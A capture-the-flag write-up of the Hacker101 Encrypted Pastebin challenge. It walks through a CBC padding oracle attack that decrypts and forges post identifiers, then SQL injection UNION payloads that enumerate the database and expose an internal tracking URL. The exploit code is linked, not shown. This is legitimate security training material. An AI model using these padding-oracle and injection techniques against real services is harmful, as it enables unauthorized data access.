

This is the next challenge from [Hacker101 CTF](https://ctf.hacker101.com/). This challenge is a mix of web and cryptography and is likely to be one of the harder challenges of this CTF since it requires quite a bit of theory.

## Intro

As soon as we load the challenge we see the following text:

```python
We've developed the most secure pastebin on the internet. Your data is protected with military-grade 128-bit AES encryption. The key for your data is never stored in our database, so no hacker can ever gain unauthorized access.
```

There are two important things in the previous message:

- 128-bit AES encryption
- the key for your data is never stored in our database

Let's keep that in mind as we keep exploring the system.

We also have the ability to create a `Post` with a title and contents. Once we create the post we get redirected to a simple page displaying the new post. The `URL` has the following format:

```python
<URL>?post=<identifier>
```

The first thing I like to do once I have access to an identifier is messing up with it to see if we can get more information about how the system is using this identifier to load whatever information it is supposed to.

## Flag 1

In this case messing up with the `post` identifier is all we need to fetch our first flag. We also get more information from the system by modifying, deleting or adding characters to our identifier. Here are a few examples of the exception I got:

```python
^FLAG^...$FLAG$
Traceback (most recent call last):
  File "./main.py", line 69, in index
    post = json.loads(decryptLink(postCt).decode('utf8'))
  File "./common.py", line 46, in decryptLink
    data = b64d(data)
  File "./common.py", line 11, in <lambda>
    b64d = lambda x: base64.decodestring(x.replace('~', '=').replace('!', '/').replace('-', '+'))
  File "/usr/local/lib/python2.7/base64.py", line 328, in decodestring
    return binascii.a2b_base64(s)
Error: Incorrect padding
```

```python
^FLAG^...$FLAG$
Traceback (most recent call last):
  File "./main.py", line 69, in index
    post = json.loads(decryptLink(postCt).decode('utf8'))
  File "./common.py", line 49, in decryptLink
    return unpad(cipher.decrypt(data))
  File "/usr/local/lib/python2.7/site-packages/Crypto/Cipher/blockalgo.py", line 295, in decrypt
    return self._cipher.decrypt(ciphertext)
ValueError: Input strings must be a multiple of 16 in length
```

```python
^FLAG^...$FLAG$
Traceback (most recent call last):
  File "./main.py", line 69, in index
    post = json.loads(decryptLink(postCt).decode('utf8'))
  File "./common.py", line 49, in decryptLink
    return unpad(cipher.decrypt(data))
  File "./common.py", line 22, in unpad
    raise PaddingException()
PaddingException
```

```python
^FLAG^...$FLAG$
Traceback (most recent call last):
  File "./main.py", line 69, in index
    post = json.loads(decryptLink(postCt).decode('utf8'))
  File "./common.py", line 48, in decryptLink
    cipher = AES.new(staticKey, AES.MODE_CBC, iv)
  File "/usr/local/lib/python2.7/site-packages/Crypto/Cipher/AES.py", line 95, in new
    return AESCipher(key, *args, **kwargs)
  File "/usr/local/lib/python2.7/site-packages/Crypto/Cipher/AES.py", line 59, in __init__
    blockalgo.BlockAlgo.__init__(self, _AES, key, *args, **kwargs)
  File "/usr/local/lib/python2.7/site-packages/Crypto/Cipher/blockalgo.py", line 141, in __init__
    self._cipher = factory.new(key, *args, **kwargs)
ValueError: IV must be 16 bytes long
```

Based on the exceptions above we can infer the following things from this system:

- We are encrypting our message in blocks (ECB)
   - `AES.new(staticKey, AES.MODE_CBC, iv)`
- The block size is 16
   - This makes sense since posts are encrypted with `128-bit AES encryption`
- The first 16 bytes of the post corresponds to the IV
   - We will see what this means soon
- We have a padding oracle
   - The system kindly tells us when our padding is wrong
- We know that the code replace certain characters before base64 decoding
   - `base64.decodestring(x.replace('~', '=').replace('!', '/').replace('-', '+'))`
   - This means the post identifier is base 64 encoded

## Flag 2

With all the information we got previously we can try to decrypt our post identifier. Since we have a padding oracle attack we are able to decrypt our identifier even though we don't have access to the decryption key.

#### Decryption

I expand on this concept without any assumed knowledge of the post [CBC Padding Oracle](/cbc-padding-oracle). In that post we can see an implementation of the attack using `Ruby` as the programming language. For this particular challenge I've implemented the same attack using `Rust`. You can find the source code [here](https://github.com/bernardoamc/labs/blob/master/hacker101/encrypted_pastebin/decrypt/src/main.rs).

Once we decrypt the post identifier we are faced with something like:

```json
{"flag": "^FLAG^<flag>$FLAG$", "id": "2", "key": "5BSPTu5fIJ9jLfXhnS8JFw~~"}
```

Seeing this `id` in the JSON makes me think of two potential attacks:

- [IDOR](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)
- [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

Since we have an `id` of value 2 we can test for an `id` of value 1. We can also try to pass an `id` with single quotes.

In order to do that we need to be able to encrypt our JSON, luckily for us having a padding oracle also allows us to do exactly that!

#### Encryption

In order to create a valid encrypted value we need to understand how our decryption works.



1. The **current ciphertext** block gets decrypted
2. This decrypted value is XORed with the **previous ciphertext** block
3. We obtain the plaintext of the **current block**

Let's see what we do and do not control:

1. We don't control the value of the current ciphertext being decrypted
2. We control the **current** and **previous** ciphertexts

**Our plan of attack:**

We want to find a value for our **previous ciphertext** that when XORed with the **decrypted value** of our **current ciphertext** will result in the plaintext we want.

#### Algorithm

Let's walk through the steps required to obtain the ciphertext we need. You can also see [my implementation of this attack](https://github.com/bernardoamc/labs/blob/master/hacker101/encrypted_pastebin/encrypt/src/main.rs) using Rust as the programming language.

##### Setup stage

1. Specify a JSON of our choice, for example: `"{ "id": "1" }"`
2. Split this JSON into blocks of 16 bytes each
3. Pad the last block to 16 bytes using the `PKCS#7 algorithm`
4. Generate a random block of 16 bytes
5. Set this random block to a variable called `last_block`

By the end of the setup you will have something like this:

```python
plaintext = [ block_1, block_2, ..., block_n ] where block_n is padded
last_block = random_block
```

##### Main stage

This is the fun part of the algorithm, we need to generate a ciphertext that when XORed with the decrypted value of `last_block`
will result in the plaintext of our choice. Once we have this ciphertext we have to repeat the process until we can generate enough
ciphertext blocks to contain our entire JSON.

Let's see how this works on `iteration 1`:

1. Generate a new block of 16 bytes containing zeroes
2. Start enumerating the last byte of this block until we can generate a value that when XORed with the decrypted value of `last_block` provides us with a valid padding of `1`
3. XOR this last byte with the value `1`, this will give us a byte value that when XORed with the decrypted value of `last_block` will result in the last byte being `0`
4. Now we are ready to find the second last byte:
    1. Set the last byte of the new block to a value that results in `2` when decrypted
    2. Enumerate the second last byte of the new block until we can generate a value that when XORed with the decrypted value of `last_block` provides us with a valid padding of `2`
    3. XOR this byte with the value `2`, this will give us a byte that when XORed with the decrypted value of `last_block` will result in the second last byte being `0`
5. Repeat step 4 until we figure out a ciphertext that when XORed with the decrypted value of `last_block` will result in a block containing **all the bytes** being zero
6. XOR this block with the value of the last block from our plaintext created in the setup phase
7. Now we have a ciphertext block that when XORed with the decrypted value of `last_block` will result in a block containing the all bytes we want from the plaintext
8. Set this ciphertext block as the `last_block` and go back to step 1

This main stage of finding the proper value based on the padding error is very similar to how we can decrypt the post identifier when obtaining our second flag. They are both padding oracle attacks, but exploiting slightly different parts of the decryption algorithm.

## Flag 3

Encrypting `'{ "id": "1" }'` and sending it as the post identifier yields an exception, but also our third flag!

```python
Attempting to decrypt page with title: ^FLAG^<flag 3>$FLAG$
```

## Flag 4

Following up on our SQL Injection theory and replacing our id with a single quote `'{ "id": "'" }'`, encrypting and sending it as the post identifier yields:

```python
Traceback (most recent call last):
  File "./main.py", line 71, in index
    if cur.execute('SELECT title, body FROM posts WHERE id=%s' % post['id']) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

This proves we have an SQL Injection in our hands ad we even know the SQL query being used, which is great! It's time to start mapping the system's database.

**Enumerating database tables**

```json
{ "id": "NULL UNION SELECT GROUP_CONCAT(table_name) AS title, NULL AS body FROM information_schema.tables WHERE table_schema=database()" }
```

We find a table called `tracking`. It seems that every time we access a post a new tracking event gets inserted on that table.

**Enumerating database columns**

```json
{ "id": "NULL UNION SELECT GROUP_CONCAT(column_name) as title, NULL as body FROM information_schema.columns WHERE table_name='tracking'" }
```

We find out that the `tracking` table has the column `headers`.

**Enumerating rows in a table**

```json
{ "id": "NULL UNION SELECT GROUP_CONCAT(headers) AS title, '' AS body FROM tracking" }
```

This one displays something interesting:

```json
Attempting to decrypt page with title: Referer: http://127.0.0.1:14807/?post=7GzHHMVIK2KQJ4TGsKusc-emk!TuQ3c1BPdPdTUWXICINPM!Ephf4qRU3b!2NIMq9gwo5zrXMP8-EY5fCH!Zpg~~
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Connection: close
Host: 127.0.0.1:14807
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
...
```

Notice the `http://127.0.0.1:14807` in that URL, this doesn't seem like something we generated ourselves when navigating through the system. Navigating to that post yields the last flag!

## Conclusion

This was a really nice challenge that forced me to review how ECB and CBC works and also involved common web vulnerabilities. I've never thought of abusing a padding oracle to generate a valid encrypted message before and spent quite a bit of time trying to understand how this could be achieved. Last but not least, being forced to create exploits was a good experience to internalize how each attack on CBC works.

Thanks for reading and I will see you in our next post!